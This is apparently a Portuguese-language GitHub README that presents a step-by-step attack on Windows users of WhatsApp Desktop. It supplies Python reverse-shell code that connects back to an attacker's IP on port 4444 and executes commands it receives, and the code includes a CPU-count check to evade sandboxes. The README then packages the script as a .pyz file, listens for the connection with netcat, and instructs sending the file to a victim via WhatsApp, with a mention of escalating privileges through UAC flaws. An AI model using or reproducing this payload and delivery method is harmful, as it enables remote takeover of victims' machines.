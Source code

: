 # Reverse_Shell_WhatsApp

## Introdução
Essa vulnerabilidade crítica presente em aplicativos de mensagens instantâneas como o **WhatsApp**, que permite que invasores executem script maliciosos desenvolvido em `Python` e `PHP` sem qualquer tipo de notificação, verificação do Windows Defender ou verificação realizada pelo usuário da máquina.
Com resultado disso, o invasor pode realizar um reverse shell e após isso; escalar privilégios em seu alvo, buscando privilégios administrativos através de falhas no UAC do Windows.
___
### Requisitos para o PC do alvo
- WhatsApp Desktop
- Python3 instalado na máquina
- Sistema Operacional: Windows10/11

### Fase 1: Criando o payload (Reverse Shell)
Criaremos um script em `.py` onde ficará nossa shell reverse
``` python
import os
import socket
import subprocess


if os.cpu_count() <= 2:
    quit()

HOST = 'SEU_IP'
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(str.encode("[*] Connection Established!"))

while 1:
    try:
        s.send(str.encode(os.getcwd() + "> "))
        data = s.recv(1024).decode("UTF-8")
        data = data.strip('\n')
        if data == "quit": 
            break
        if data[:2] == "cd":
            os.chdir(data[3:])
        if len(data) > 0:
            proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
            stdout_value = proc.stdout.read() + proc.stderr.read()
    
```
> Uma parte do código do script foi ofuscado para evitar mal uso, caso você seja um pesquisador ou entusiasta da área, me procure que irei disponibilizar.

### Fase 2: Criando o executável (.pyz)
Crie o executável `.pyz` utilizando o **zipaap**
 ```bash
python3 -m zipapp reverseshell.py -o reverseshell.pyz
```
<img width="800" height="130" alt="1_r1fVBGGCxVWXv3JPh8tgPA" src="https://github.com/user-attachments/assets/1fe969e5-1994-4116-831b-0966ce3f45a2" />


### Fase 3: Recebendo a conexão via Netcat
Inicie uma conexão utilizando **Netcat** utilizando a porta 4444 que foi usada no script
```bash
nc -lvnp 4444
```
<img width="259" height="75" alt="imagem" src="https://github.com/user-attachments/assets/60b155b0-e3dd-46b5-a5eb-057bfcb4ee1d" />

### Fase 4: Enviando o payload via WhatsApp
Envie o arquivo `.pyz`para a vítima através do WhatsApp, encaminhe como documento.
Assim que a vítima se conectar, teremos uma conexão em nosso Netcat.

## PoC - Prova de Conceito
https://github.com/user-attachments/assets/3f154f28-bb1e-42f3-a6b1-29f9d4c2f3af
